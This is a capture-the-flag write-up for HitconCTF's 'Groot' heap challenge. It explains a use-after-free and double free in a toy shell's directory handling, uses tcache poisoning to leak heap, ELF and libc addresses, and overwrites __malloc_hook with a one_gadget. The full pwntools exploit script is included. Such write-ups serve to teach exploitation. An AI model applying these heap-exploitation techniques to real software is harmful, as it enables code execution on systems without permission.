

# Groot


Very interesting and tricky challenge from HitconCTF that i played for almost 2 entire days. Not an expert of heap exploitation, but managed to solve it :D 

Groot is a c++ executable compiled with the following security options:
* Arch:     amd64-64-little
* RELRO:    Full RELRO
* Stack:    Canary found
* NX:       NX enabled
* PIE:      PIE enabled
* FORTIFY:  Enabled

It emulates a UNIX-like bash with some commands available, and a set of files and directory created at start-up. 
The filesystem is very simple. Files, directories and symbolic links have all the same structure.

```C
struct filesystem_object
{
    int type;                               // 1 = normal file, 2 = directory, 4 = symbolic link
    int unused;
    filesystem_object *parent_directory;    // Points to the parent directory
    filesystem_object *head;                // Head of a list of filesystem_object
    filesystem_object *next;                // Next filesystem_object in the current directory
    filesystem_object *file_name;           // Name of the file
    filesystem_object *file_content;        // Content of the file
}
```

As you can imagine, files don't have `head` because they are not directory and obviously directories don't have `file_content` because they are not files. For instance a directory with 3 files will have the following structure.


The available commands are `ls`, `cat`, `cd`, `rm`, `mv`, `mkdir`, `mkfile`, `touch`, `pwd`, `ln` and `id`. They work pretty much like the UNIX commands except some limitations given by the context. Functions used for these commands are almost clean: `mv` has a bug that allows to rename a file with a already existing file name in the current directory just prefixing the new name of the file with `/`(e.g. `mv name /new_name` will rename the file name to new_name in the current directory even if new_name already exists), and a 3 byte overflow in `mkfile` which i think is not usable in my opinion.
Instead, the real vulnerabilities of this challenge is in the creation of a directory. Whenever a directory is created, the pointer to the `head` is not set to 0. This allows to create a new directory with a `head` pointer that could be controlled in some way.

## Heap leak

If a directory is freed, all of the files, directories, names and contents are freed even before the parent directory gets freed. If then a new directory is created it will contain the same `head` address of the previous and freed directory. Thus, my idea was exactly this one: free a directory with a file inside, reallocate it immediately and then list the files to leak an address of a freed chunk. Moreover, one file was not enought cause one freed chunks just contains a null pointer to the next free chunk. Two file were not enought too, cause every argument of a command is allocated as a chunk(so just typing the command will consume chunks in the freed linked list).
The part of the exploit that performs the leak is the following:

```python
makeDir     (conn, 'directory1')
cdDir       (conn, 'directory1')
createFile  (conn, 'file1', 'AAAA')
createFile  (conn, 'file2', 'BBBB')
createFile  (conn, 'file3', 'CCCC')
cdDir       (conn, '..')
rm          (conn, 'directory1')
makeDir     (conn, 'directory1')
leak = ls   (conn, 'directory1')
leak = leak.split('\x1b\x5b\x30\x6d\x09')[2]
leak = leak.ljust(8, '\x00')
heap_base = u64(leak) - 0x12d20
print 'Heap base: ' + hex(heap_base)
cdDir       (conn, 'A' * 0x30)
cdDir       (conn, 'A' * 0x30)
cdDir       (conn, 'A' * 0x30)
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, '..')
makeDir     (conn, 'groot2')
cdDir       (conn, 'groot2')
```

Lasts `cd` commands just clear the workspace(i.e., fill some freed chunks) and then i preferred to leave the directory to avoid segfaults.

## I am Groot

Untill now, there's nothing special to know about this program, it is just an example of use after free. From now on instead, it is better to explain some more details about Groot! Almost every inserted string is passed to a strdup, which will allocate the correct number of bytes for that particular string(this mean that is not possible to pad input with zero or new line characters, for instance). Thus, if we want to insert an address in a chunk it will be surely inserted in a chunk of size 0x20(this is a key point for this challenge). Moreover, we cannot also create a fake `filesystem_object` because the first zero used for padding an address will terminate the string and place it in a chunk of size 0x20.
Another key point is how the chunk are managed. We are provided with the libc(2.27) which manages the freed chunks with the tcache.

## Write/Read on the heap

Now comes the tricky part. If a directory is freed, recreated in the same chunk of the previous one and freed again, all of the files and subdirectories inside it will be freed two times. If it is done in a proper way, a double free may not lead to a memory corruption. In order to get a proper double free, I created some files(not all are used for the double free), one directory and one file inside this last. I need some files to be freed for the same reason I explained before: arguments consume the free list.

```python
createFile  (conn, 'file1', 'file1')
createFile  (conn, 'file2', 'file2')
createFile  (conn, p64(heap_base + OFFSET_FILENAME4), 'file3')
createFile  (conn, p64(heap_base + OFFSET_FILECONTENT5), 'file4') 
createFile  (conn, 'file5', p64(heap_base + OFFSET_FILECONTENT5))
makeDir     (conn, 'directory1')
cdDir       (conn, 'directory1')
createFile  (conn, 'file1', 'file1')
cdDir       (conn, '..')
rm          (conn, 'file1')
rm          (conn, 'directory1')
rm          (conn, 'file2')
cdDir       (conn, 'A' * 0x30)
makeDir     (conn, 'directory1')
rm          (conn, 'directory1')
```

With a `cd` of As I'm filling the chunks of file2. In this way, the directory will be created in the same chunk of the freed directory and again, it will have the same `head` address of the previous directory. Finally, freeing this last directory will provide us a double free and so, a list of free chunks in which we can control the pointer to the next free chunk.
File3, file4 and file5 has values which may be not really clear now. The name of file3 is just a pointer to the pointer of the pointer of file4, file4 name is just a pointer to the pointer of the content of file5 and file5 content is a pointer to the pointer of its content.

Imagine TODO

Now, with some `cd` it is possible to consume the free list. With what? With a pointer to the pointer of the name of file3. In this way we will move our free list in a fake list already prepared with file3, file4 and file5.

```python
cdDir       (conn, p64(heap_base + OFFSET_FILENAME5))
cdDir       (conn, p64(heap_base + OFFSET_FILENAME5))
cdDir       (conn, p64(heap_base + OFFSET_FILENAME5))
cdDir       (conn, p64(heap_base + OFFSET_FILENAME5))
```

After this 4 commands our free lists will point to the pointer of the name of file3. Consuming another chunk will allow us to change the pointer of the name of file3 with an arbitrary pointer and moreover, the next free fake chunk will be the name of file3, which is a pointer ;)
The new value of the pointer of the name of file3 will be a pointer close to the start of the heap. Indeed, in this region, there are pointers to the `.bss` because the root structure of the system is allocated on the `.bss` and several directories(bin, etc, lib...) have, as parent, the root directory. All this stuff will lead to a leak of the ELF.

```python
cdDir       (conn, p64(heap_base + ELF_POSITION))
leak = ls   (conn, '')
leak = leak.split('\x1b\x5b\x30\x6d\x09')[3]
leak = leak.ljust(8, '\x00')
elf_base = u64(leak) - ELF_OFFSET
print 'ELF base: ' + hex(elf_base)
```

## Libc leak

Same as before, just changing the pointer of the name of file4 to the pointer of the `__stack_chk_fail` in the `.got`. This will lead to a leak of the libc.

```python
cdDir       (conn, p64(elf_base + SCHK_OFFSET_GOT))
cdDir       (conn, p64(elf_base + SCHK_OFFSET_GOT))
leak = ls   (conn, '')
leak = leak.split('\x1b\x5b\x30\x6d\x09')[2]
leak = leak.ljust(8, '\x00')
libc_base = u64(leak) - SCHK_OFFSET
print 'libc base: ' + hex(libc_base)
```

## Magic

Finally, we just need to chenge the value of the `__malloc_hook` to a value given by one_gadget.



However, this time we need to change the pointer of the content of file5 into the pointer of the `__malloc_hook`, consume two chunks and write the value of the gagdet in the `__malloc_hook`. I used the third gadget.

## Exploit

```python
from pwn import *

OFFSET_FILENAME3 = 0x12fc0
OFFSET_FILENAME4 = 0x13040
OFFSET_FILECONTENT5 = 0x130c8
ELF_OFFSET = 0x204040
ELF_POSITION = 0x11eb8
SCHK_OFFSET_GOT = 0x203f70
SCHK_OFFSET = 0x134c80
MALLOC_HOOK_OFFSET = 0x3ebc30
MAGIC = 0x10a38c
env_vars = {'LD_LIBRARY_PATH':'.'}

def createFile(conn, file_name, content):
    conn.recvuntil('$')
    conn.sendline('mkfile ' + file_name)
    conn.recvuntil('Content?')
    conn.send(content)

def makeDir(conn, dir_name):
    conn.recvuntil('$')
    conn.sendline('mkdir ' + dir_name)

def cdDir(conn, dir_path):
    conn.recvuntil('$')
    conn.sendline('cd ' + dir_path)

def rm(conn, file_name):
    conn.recvuntil('$')
    conn.sendline('rm ' + file_name)

def mvFile(conn, old, new):
    conn.recvuntil('$')
    conn.sendline('mv ' + old + ' ' + new)

def ls(conn, path=''):
    conn.recvuntil('$')
    conn.sendline('ls ' + path)
    return conn.recvuntil('\n\n')

def touch(conn, file_name):
    conn.recvuntil('$')
    conn.sendline('touch ' + file_name)

#conn = process('./groot_patched', env=env_vars, aslr=False)
conn = remote('54.238.202.201', 31733)
makeDir     (conn, 'directory1')
cdDir       (conn, 'directory1')
createFile  (conn, 'file1', 'AAAA')
createFile  (conn, 'file2', 'BBBB')
createFile  (conn, 'file3', 'CCCC')
cdDir       (conn, '..')
rm          (conn, 'directory1')
makeDir     (conn, 'directory1')
leak = ls   (conn, 'directory1')
leak = leak.split('\x1b\x5b\x30\x6d\x09')[2]
leak = leak.ljust(8, '\x00')
heap_base = u64(leak) - 0x12d20
print 'Heap base: ' + hex(heap_base)
cdDir       (conn, 'A' * 0x30)
cdDir       (conn, 'A' * 0x30)
cdDir       (conn, 'A' * 0x30)
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, '..')
makeDir     (conn, 'groot2')
cdDir       (conn, 'groot2')


### Workspace should be clear now
createFile  (conn, 'file1', 'file1')
createFile  (conn, 'file2', 'file2')
createFile  (conn, p64(heap_base + OFFSET_FILENAME4), 'file3')
createFile  (conn, p64(heap_base + OFFSET_FILECONTENT5), 'file4') 
createFile  (conn, 'file5', p64(heap_base + OFFSET_FILECONTENT5))
makeDir     (conn, 'directory1')
cdDir       (conn, 'directory1')
createFile  (conn, 'file1', 'file1')
cdDir       (conn, '..')
rm          (conn, 'file1')
rm          (conn, 'directory1')
rm          (conn, 'file2')
cdDir       (conn, 'A' * 0x30)
makeDir     (conn, 'directory1')
rm          (conn, 'directory1')

# Double free performed
cdDir       (conn, p64(heap_base + OFFSET_FILENAME3))
cdDir       (conn, p64(heap_base + OFFSET_FILENAME3))
cdDir       (conn, p64(heap_base + OFFSET_FILENAME3))
cdDir       (conn, p64(heap_base + OFFSET_FILENAME3))
cdDir       (conn, p64(heap_base + ELF_POSITION))
leak = ls   (conn, '')
leak = leak.split('\x1b\x5b\x30\x6d\x09')[3]
leak = leak.ljust(8, '\x00')
elf_base = u64(leak) - ELF_OFFSET
print 'ELF base: ' + hex(elf_base)
cdDir       (conn, p64(elf_base + SCHK_OFFSET_GOT))
cdDir       (conn, p64(elf_base + SCHK_OFFSET_GOT))
leak = ls   (conn, '')
leak = leak.split('\x1b\x5b\x30\x6d\x09')[2]
leak = leak.ljust(8, '\x00')
libc_base = u64(leak) - SCHK_OFFSET
print 'libc base: ' + hex(libc_base)
cdDir       (conn, p64(libc_base + MALLOC_HOOK_OFFSET))
cdDir       (conn, p64(libc_base + MALLOC_HOOK_OFFSET))
cdDir       (conn, p64(libc_base + MAGIC))
cdDir       (conn, p64(libc_base + MAGIC))
cdDir       (conn, p64(libc_base + MAGIC))
createFile  (conn, "I_AM_GROOT!!!", "I_AM_GROOT!!!")
conn.interactive()
```

`hitcon{Groot_knows_heap_exploitation:evergreen_tree:}`